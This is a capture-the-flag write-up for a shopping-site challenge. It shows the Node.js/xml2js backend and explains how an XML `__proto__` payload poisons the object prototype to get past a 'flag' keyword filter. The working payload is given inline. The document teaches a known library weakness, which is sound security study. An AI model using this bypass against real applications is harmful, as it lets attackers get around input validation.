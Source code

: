 # SO fresh SO clean
The website is a simple shopping website where you can add the latest drip to 
your cart. When you start interacting with the website you notice that you can
add each of the items to your cart. When doing so you see a simple request
where the body contains XML used for selecting the item. 

Immediately you might try to select the flag item but you will be prompted with
an error message stating that it is an _Invalid item!_.

## Solution
When looking at the code we can see that the backend is rather simple:
```JavaScript
const express = require('express');
const path = require('node:path');
const bodyParser = require('body-parser');
const { readFile } = require('fs/promises');
const parseString = require('xml2js').parseString;

const app = express()
const port = 5000

app.use(express.static('static'))
app.use(bodyParser.text({ type: 'text/xml' }))

function invalidItem(item) {
    return JSON.stringify(item).includes('flag');
}

app.get('/', (req, res) => {
    res.sendFile('index.html', { root: path.join(__dirname, 'templates')});
})

app.get('/cart', async (req, res) => {
    let cartTemplate = await readFile('templates/cart.html', 'utf8');
    let html = cartTemplate.replaceAll('{{ item }}', 'Your cart is empty');
    res.setHeader('Content-Type', 'text/html');
    res.send(html);
})

app.post('/cart', async (req, res) => {
    let cart = null;
    let html = null;
    let cartTemplate = await readFile('templates/cart.html', 'utf8');
    try {
        parseString(req.body, function (err, cart) {
            if (invalidItem(cart)) {
                res.statusCode = 400;
                return res.send('Invalid item!');
            }
            if (cart.item.includes('flag')) {
                html = cartTemplate.replaceAll('{{ item }}', process.env.FLAG || 'gg{not_a_flag}');
            } else {
                html = cartTemplate.replaceAll('{{ item }}', cart.item)
            }
            res.setHeader('Content-Type', 'text/html');
            res.send(html);
        });
    } catch(e) {
        res.statusCode = 500;
        return res.send(e.message);
    }
})  

app.listen(port, () => {
    console.log(`listening on port ${port}`);
})
```

Most of the code is just boilerplate, it can be seen that the main logic is in 
the method handling `POST /cart`:

```JavaScript
app.post('/cart', async (req, res) => {
    let cart = null;
    let html = null;
    let cartTemplate = await readFile('templates/cart.html', 'utf8');
    try {
        parseString(req.body, function (err, cart) {
            if (invalidItem(cart)) {
                res.statusCode = 400;
                return res.send('Invalid item!');
            }
            if (cart.item.includes('flag')) {
                html = cartTemplate.replaceAll('{{ item }}', process.env.FLAG || 'gg{not_a_flag}');
            } else {
                html = cartTemplate.replaceAll('{{ item }}', cart.item)
            }
            res.setHeader('Content-Type', 'text/html');
            res.send(html);
        });
    } catch(e) {
        res.statusCode = 500;
        return res.send(e.message);
    }
})  
```

At this point it is clear that the objective of the challenge is to fetch the 
_flag_ item. That is we must make sure the cart includes a _flag_ item. However
to get to that point we must first bypass the `invalidItem` function.


```JavaScript
function invalidItem(item) {
    return JSON.stringify(item).includes('flag');
}
```

So we can see that `JSON.stringify(item).includes('flag')` must be false and 
that `cart.item.includes('flag')` has to be true for us to be able to get the
flag. Looking at this now, it seems rather weird, we `POST` a body containing XML
but the backend interacts with it as if it were JSON.

Looking closer, we can see that the `parseString` function is being called with
`req.body` as an argument. The `parseString` function is being imported from a 
library named `xml2js`. When reading up on `xml2js` we can see that it is a 
rather popular library used for parsing XML into a JavaScript object, with just
over 18 million downloads weekly.

Now for some this might ring warning beels immediately, that is cloning an XML
object into JSON. The thought that should popup is:

> Is this vulnerable to _prototype pollution_?

And the answer is _almost_, the library is actually vulnerable to _prototype 
poisoning_ a close relative to _prototype pollution_. This is well documented
in this [issue](https://github.com/Leonidas-from-XIV/node-xml2js/issues/593).

After reading up on prototype pollution and poisoning you might first try 
posting the following: `<__proto__><item>flag</item></__proto__>` and this is 
the correct solution.

Now why does this work? Look at how this differs from `<item>flag</item>`:
```
<item>flag</item>
JSON.stringify(item) --> {"item": "flag"}
cart.item --> "flag"

JSON.stringify(item).includes('flag') --> true
cart.item.includes('flag') --> true

<__proto__><item>flag</item></__proto__>
JSON.stringify(item) --> {}
cart.item --> ["flag"]

JSON.stringify(item).includes('flag') --> false
cart.item.includes('flag') --> true
```

The reason that `JSON.stringify(item)` returns an empty JSON object even though
`cart.item` outputs a value is because the prototype of the object has been 
poisoned. So the actual object does not include the _flag_ item but its 
prototype does and when calling `cart.item` JavaScript won't find the item on
the object itself so it looks into its prototype next, where it finds the item.
